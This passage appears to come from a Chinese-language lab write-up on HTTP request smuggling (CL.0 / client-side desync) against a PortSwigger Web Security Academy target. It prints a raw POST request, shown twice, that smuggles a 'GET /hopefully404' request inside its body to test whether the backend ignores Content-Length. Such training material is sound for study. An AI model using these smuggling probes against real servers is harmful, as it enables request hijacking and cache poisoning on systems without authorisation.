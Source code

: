 [![](assets/1705301772-ce9583745d68dad7bdbbc37d9e9052d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182612-57345bea-b2c7-1.png)  
随后将请求 URL 更改为其他要 Fuzzing 的路径并更改请求头信息"Connection: keep-alive"发送请求

```bash
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

[![](assets/1705301772-0e9ff2d35db35232c733119a8edd4c7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182631-622cbc90-b2c7-1.png)  
如果服务器正常响应第二个请求，则此端点不会受到攻击，如果对第二个请求的响应与我们期望的走私前缀相匹配，则表面后端服务器会忽略请求头中的"Content-Length"

```bash
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```
